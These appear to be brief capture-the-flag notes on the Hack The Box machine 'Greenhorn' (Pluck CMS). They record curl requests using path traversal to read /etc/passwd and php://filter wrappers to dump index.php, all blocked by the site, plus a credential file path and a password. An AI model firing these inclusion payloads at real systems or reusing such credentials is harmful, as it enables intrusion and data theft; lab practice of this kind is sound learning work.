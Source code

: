 ## Greenhorn htb


url:

http://greenhorn.htb/?file=index.php


no wrapers
admin | powered by pluck
❯ curl -s -X GET "http://greenhorn.htb/?file=../../../../../../etc/passwd" | html2text
A hacking attempt has been detected. For security reasons, we're blocking any
code execution.
❯ curl -s -X GET "http://greenhorn.htb/?file=php://filter/convert.base64-encode/resource=index.php" | html2text
A hacking attempt has been detected. For security reasons, we're blocking any
code execution.
❯ curl -s -X GET "http://greenhorn.htb/?file=php://filter/convert.base64-encode/resource=index.php" | html2text
A hacking attempt has been detected. For security reasons, we're blocking any
code execution.



possible credentials:
content/gitlab/greenhorn/data/settings/pass.php
iloveyou1

